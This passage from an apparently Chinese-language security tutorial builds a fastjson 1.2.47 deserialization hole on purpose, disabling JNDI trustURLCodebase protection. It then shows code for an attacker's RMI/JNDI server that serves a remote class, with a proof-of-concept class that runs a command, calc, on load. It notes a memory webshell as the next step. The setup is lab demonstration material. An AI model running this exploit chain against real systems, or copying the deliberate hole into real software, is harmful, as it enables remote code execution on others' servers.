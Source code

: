 创造一个反序列化利用点

```
// 使用fastjson 1.2.47模拟利用点
import com.alibaba.fastjson.JSON;

@Controller
public class TestController `{`
    @RequestMapping("/deserialize")
    @ResponseBody
    public String deserialize(@RequestParam String code) throws Exception`{`
        // 本地JDK版本过高，为了方便，直接设置系统变量以成功利用JNDI注入
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        JSON.parse(code);
        return "deserialize";
    `}`
`}`
```



## 漏洞利用

首先尝试弹出计算器，确保利用成功后再尝试内存马

攻击者启动`JNDI Server`

```
public class JNDIServer `{`
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException `{`
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("badClassName",
                "com.test.shell.badClassName","http://127.0.0.1:8000/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("Exploit", referenceWrapper);
    `}`
`}`
```

其中的`badClassName`代码如下，在静态代码块中执行计算器命令

```
package com.test.shell;

public class badClassName `{`
    static `{`
        try `{`
            Runtime.getRuntime().exec("calc");
        `}` catch (Exception e) `{`
            e.printStackTrace();
        `}`
    `}`
`}`
```
